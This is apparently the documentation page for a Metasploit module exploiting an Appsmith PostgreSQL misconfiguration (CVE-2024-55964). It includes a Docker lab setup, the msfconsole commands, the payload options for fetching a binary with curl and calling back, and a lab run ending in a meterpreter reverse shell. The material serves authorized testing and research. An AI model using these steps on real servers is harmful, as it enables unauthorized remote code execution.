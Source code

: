 ## Vulnerable Application

An incorrectly configured PostgreSQL instance in the Appsmith image leads to remote command execution inside the Appsmith Docker container.

The vulnerability affects:

    * v1.20 <= Appsmith <= v1.51

This module was successfully tested on:

    * Appsmith v1.50 installed with Docker


### Installation

1. Create a docker-compose.yml file with:
```
version: "3"
services:
   appsmith:
     image: index.docker.io/appsmith/appsmith-ce:v1.50
     container_name: appsmith
     ports:
         - "80:80"
         - "443:443"
     volumes:
         - ./stacks:/appsmith-stacks
     restart: unless-stopped
```

2. `docker-compose up`


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/appsmith_rce_cve_2024_55964`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options


## Scenarios
```
msf6 > use exploit/linux/http/appsmith_rce_cve_2024_55964
[*] Using configured payload cmd/linux/http/x64/meterpreter_reverse_tcp
msf6 exploit(linux/http/appsmith_rce_cve_2024_55964) > options

Module options (exploit/linux/http/appsmith_rce_cve_2024_55964):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    443              yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        true             yes       Attempt to delete the binary after execution
   FETCH_FILENAME      XIYHCHbc         no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST                                yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/appsmith_rce_cve_2024_55964) > run lhost=172.18.0.1 rhost=172.18.0.2 rport=80
[*] Started reverse TCP handler on 172.18.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 1.50 detected.
[*] Successfully signed up.
[*] Successfully saved DB configuration.
[*] Meterpreter session 1 opened (172.18.0.1:4444 -> 172.18.0.2:56752) at 2025-04-05 14:41:08 +0900

meterpreter > getuid
Server username: postgres
meterpreter > sysinfo
Computer     : 172.18.0.2
OS           : Ubuntu 20.04 (Linux 6.6.15-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

